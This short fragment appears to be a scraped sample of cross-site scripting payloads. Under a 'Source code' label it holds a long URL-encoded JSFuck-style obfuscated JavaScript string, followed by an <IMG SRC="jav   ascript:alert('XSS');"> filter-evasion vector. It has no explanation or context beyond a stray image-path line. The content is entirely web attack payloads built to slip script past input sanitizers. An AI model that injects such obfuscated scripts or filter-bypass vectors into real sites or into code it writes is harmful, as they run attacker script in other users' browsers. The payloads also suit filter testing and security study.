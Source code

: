 %21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%5D%28%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%29%28%29%5B%28%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%5B%5D%5B%5B%5D%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%5B%5D%5B%5B%5D%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%28%29%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%2B%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%5D%2B%5B%2B%21%2B%5B%5D%5D%2B%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%5B%2B%5B%5D%5D%2B%21%5B%5D%2B%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%29
<IMG SRC="jav   ascript:alert('XSS');">
